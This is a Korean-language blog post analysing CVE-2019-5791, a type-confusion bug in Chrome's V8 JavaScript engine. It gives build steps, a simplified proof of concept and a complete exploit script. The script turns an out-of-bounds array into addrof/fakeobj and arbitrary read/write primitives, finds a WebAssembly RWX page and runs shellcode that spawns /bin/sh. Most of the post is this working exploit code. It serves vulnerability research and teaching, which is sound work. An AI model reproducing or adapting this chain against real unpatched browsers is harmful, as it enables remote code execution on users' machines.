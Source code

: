 ```yaml
---
layout: post
title: CVE-2019-5791 1day analysis
categories: Browser
tags: [v8, 1day]
---
```


## 목차

- 빌드
- POC 분석
- Exploit
- 레퍼런스


## 빌드

```bash
git clone <https://chromium.googlesource.com/chromium/tools/depot_tools.git>
export PATH=`pwd`/depot_tools:"$PATH"
fetch v8 
cd v8 
git checkout b267f94ffca9fb90d04ffa03c910d8508c20dd26
gclient sync
build/install-build-deps.sh
tools/dev/gm.py x64.release
```

## POC 분석

- POC 코드

  - https://bugs.chromium.org/p/chromium/issues/detail?id=926651

  - 총 2가지의 POC가 존재한다.

  - 근데 이 POC들은 조금 복잡하게 표현되어 있어서 단순화 시키면 다음과 같다.

    ```jsx
    call = function (code) {
    	try { code(); } catch (e) { console.log(e); }
    }
    
    function run() {
        const f = (v1 = (function() {
    		  var v2 = 0;
    	    var v3 = 0;
        	if (asdf) { return; } else { return; }
        	(function() { print("not trigger") });
    	    (function() { v3 = 'A'.repeat(5000); v2 = [1, 2, 3, 4, 5, 6] });
    		})()) => 1;
    	f();
    }
    
    let oob = {};
    
    %DebugPrint(oob);      // Object map
    %DebugPrint(run);      // JSFunction
    
    call(() => (run()));
    call(() => (run()));
    
    %DebugPrint(oob);      // JSArray[6] (v2)
    %DebugPrint(run);      // Array map
    
    run[13] = 0x41414141   // oob!!
    print(oob.length)
    ```

- call 함수로 run 함수를 2번 트리거하면 oob 객체는 v2라는 JSArray로, run 함수의 Map이 Array로 바뀌어 있다.

- 이 버그는 js 코드를 파싱하고 AST를 만드는 과정에서 최적화를 하려다 꼬인 경우이다.

- run 함수 내엔 두 가지의 익명 함수가 정의되어 있다.

  - 이 중 첫 번째 익명 함수는 트리거되지 않는다.
  - 두 번째 익명 함수는 run 함수가 2번째 call될 때 호출된다.
    - `v3 = 'A'.repeat(5000);` 가 실행되면 run 함수의 map이 Array map으로 변경되며 type confusion이 발생한다.
    - `v2 = [1, 2, 3, 4, 5, 6]` 가 실행되면 oob 객체가 지금 선언한 v2로 바뀐다.

- run 함수의 map이 Array map으로 바뀌게 되었고 13번째 인덱스 부분을 수정하면 v2로 변한 oob의 length를 바꿀 수 있게되어서 oob가 생긴다.

- oob가 트리거 되는 확률은 높지않다.

  - 힙쪽 oob인데, 여러 쓰레드에서 하나의 힙을 사용하다보니 힙 구성이 그때그때 달라지기 때문이다.

## Exploit

- 현 POC에선 oob가 발생하는 배열이 float가 아니어서 oob read가 되지 않는다. 그래서 v2를 float 배열로 바꿔준 후 디버깅을 통해 length offset을 다시 찾아서 0x41414141로 변경해주어야 한다.

- 그리고 obj_arr과 float_arr을 생성해서 `addrof`와 `fakeobj`를 만들어야하는데, 이 배열을 v2 바로 뒤에 생성하는게 oob 배열에서 접근하는 것이 더 편했다.

- 이제 oob 배열을 통해 `obj_arr_map`과 `float_arr_map`을 leak하고 type confusion을 일으켜서 addrof와 fakeobj를 구현하고 aar과 aaw를 만들어서 익스 하면 끝이다.

- rwx의 offset은 버전마다 달라져서 디버깅을 해보니 현 버전에선 `wasm_i_addr+0xf0n` 이었다. (vmmap으로 rwx 영역 확인 후 search -t qword rwx영역 으로 검색)

- 익스코드

  ```jsx
  call = function (code) {
  	try { code(); } catch (e) { console.log(e); }
  }
  
  function run() {
      const f = (v1 = (function() {
  			var v2 = 0;
  	    var v3 = 0;
      	if (asdf) { return; } else { return; }
      	(function() { print("not trigger") });
  	    (function() {
  				v3 = 'A'.repeat(5000);
  				v2 = [1.1, 1.2, 1.3, 1.4];
  				obj_arr = [{}].slice();
  				float_arr = [1.1, 1.2, 1.3, 1.4];
  			});
  	})()) => 1;
  	f();
  }
  
  let oob = {};
  
  call(() => (run()));
  call(() => (run()));
  
  run[19] = 0x41414141;
  print('oob.length: ' + hex(oob.length));
  
  var buf = new ArrayBuffer(8); 
  var f64_buf = new Float64Array(buf);
  var u64_buf = new Uint32Array(buf);
  
  function ftoi(val) { 
      f64_buf[0] = val;
      return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); 
  }
  
  function itof(val) { 
      u64_buf[0] = Number(val & 0xffffffffn);
      u64_buf[1] = Number(val >> 32n);
      return f64_buf[0];
  }
  
  function hex(b) {
  	return ('0x' + b.toString(16));
  }
  
  if (oob.length == 0x41414141) {
  	obj_arr_map = oob[28];
  	float_arr_map = oob[38];
  
  	print("float_arr_map: " + hex(ftoi(float_arr_map)));
  	print("obj_arr_map: " + hex(ftoi(obj_arr_map)));
  
  	var arb_rw_arr = [float_arr_map, 0, 1.3, 8];
  
  	function addrof(obj) {
  		obj_arr[0] = obj;
  		oob[28] = float_arr_map;
  		let addr = obj_arr[0];
  		oob[28] = obj_arr_map;
  		return ftoi(addr);
  	}
  
  	function fakeobj(addr) {
  		float_arr[0] = itof(addr);
  		oob[38] = obj_arr_map;
  		let fake = float_arr[0];
  		oob[38] = float_arr_map;
  
  		return fake;
  	}
  
  	function aar(addr) {
      	if (addr % 2n == 0)
  			addr += 1n;
  
      	let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);
      	arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);
  
      	return ftoi(fake[0]);
  	}
  
  	function aaw_init(addr, val) {
      	fake = fakeobj(addrof(arb_rw_arr) - 0x20n);
      	arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);
      	fake[0] = itof(BigInt(val));
  	}
  
  	var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
  	var wasm_mod = new WebAssembly.Module(wasm_code);
  	var wasm_instance = new WebAssembly.Instance(wasm_mod);
  	var f = wasm_instance.exports.main;
  	var wasm_i_addr = addrof(wasm_instance);
  	var rwx = aar((wasm_i_addr)+0xf0n);
  
  	print('rwx: ' + hex(rwx));
  
  	var shellcode = [0xbb48f631, 0x6e69622f, 0x68732f2f, 0x5f545356, 0x31583b6a, 0x050fd2];
  	var shellcode_buf = new ArrayBuffer(0x100);
  	var dataview = new DataView(shellcode_buf);
  	aaw_init(addrof(shellcode_buf)+0x20n, rwx);
  
  	for (var i=0; i<shellcode.length; i++) {
  		dataview.setUint32(4*i, shellcode[i], true);
  	}
  	f();	
  }
  ```

## 레퍼런스

-  https://bugs.chromium.org/p/chromium/issues/detail?id=926651
